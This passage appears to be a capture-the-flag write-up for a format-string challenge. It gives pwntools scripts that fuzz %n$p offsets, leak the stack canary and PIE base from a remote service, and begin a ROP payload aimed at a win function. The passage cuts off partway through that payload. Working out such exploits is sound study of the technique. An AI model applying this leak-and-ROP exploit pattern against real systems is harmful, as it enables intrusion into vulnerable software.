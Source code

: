 With this, we can read almost anything we want if we know the offset (the number after %). I wrote a
[tool](https://github.com/samuzora/ffuzzer) which currently only supports local fuzzing. Note that these offsets differ
on local and remote, so let's skip my tool and fuzz on remote.

```py 
from pwn import *
import time

elf = context.binary = ELF('./ffuzzer')
context.log_level = "error"
rop = ROP(elf)

#p = process()
p = remote('alpha.8059blank.ml', 3002)
#input()

for i in range(1, 300):
    p = remote('0.0.0.0', 3002)
    time.sleep(0.2)
    p.clean()
    p.sendline(f"%{i}$p")
    try:
        canary = int(p.recvline().strip()[2:], 16)
        print(f'{hex(canary)} {i}')
    except:
        print(f'error {i}')
    p.close()
```

Similar to RPS 2.0, we need the canary and PIE offset. Canary can be identified with `0x...00`, and PIE with `0x55...`.

After we've found 2 suitable offsets, we can write our exploit:

```py 
from pwn import *
import time

elf = context.binary = ELF('./formatstring')
rop = ROP(elf)

#p = process()
p = remote('alpha.8059blank.ml', 3002)
#input()

# find canary
time.sleep(1)
p.clean()
p.sendline("%39$p")
canary = int(p.recvline().strip()[2:], 16)
print(hex(canary))

# find pie
p.clean()
p.sendline("%40$p")
pie = int(p.recvline().strip()[2:], 16) - elf.symbols.__libc_csu_init
print(hex(pie))
print(hex(pie + elf.symbols.win))

# rop
payload = flat(
    b'A' * 264,
    canary,
    b'A'*8,
```